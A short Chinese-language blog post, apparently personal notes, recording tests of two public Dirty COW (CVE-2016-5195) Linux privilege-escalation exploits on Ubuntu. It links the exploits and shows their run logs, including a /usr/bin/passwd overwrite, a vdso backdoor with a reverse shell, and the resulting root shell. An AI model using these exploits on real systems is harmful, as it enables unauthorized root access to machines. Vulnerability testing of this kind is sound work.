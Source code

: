 ```yaml
---
title: CVE-2016-5195 Dirtycow 
date: 2016-10-26 09:35:13
tags: 
 - 漏洞分析
categories: notes
---
```


## 概述
最近出来的dirtycow，影响版本:Linux kernel >= 2.6.22（2007年发行，到今年10月18日才修复）,用网上的EXP试了一下，记录一下过程
<!--more-->
### EXP

#### https://www.exploit-db.com/exploits/40616/

这个EXP是exploitdb上的，但是容易造成系统崩溃，成功后会返回一个root权限的shell

```
okami@ubuntu14:~$ ./dirtycow
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 47032
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@ubuntu14:/home/okami# id
uid=0(root) gid=1000(okami) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(okami)
root@ubuntu14:/home/okami# whoami
root
root@ubuntu14:/home/okami#
```

#### https://github.com/scumjr/dirtycow-vdso
这个EXP不会出现系统崩溃，但是作者本人说不适用于所有linux版本，不过试验了一下，ubuntu14 16 centOS7都可以
```
okami@ubuntu14:~$ ./0xdeadbeef
[*] exploit: patch 1/2
[*] vdso successfully backdoored
[*] exploit: patch 2/2
[*] vdso successfully backdoored
[*] waiting for reverse connect shell...
[*] enjoy!
[*] restore: patch 2/2
[*] vdso successfully restored
[*] restore: patch 1/2
[*] vdso successfully restored
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```
注意这里有一步是waiting for reverse connect shell...，需要一点时间，成功后有root权限的shell


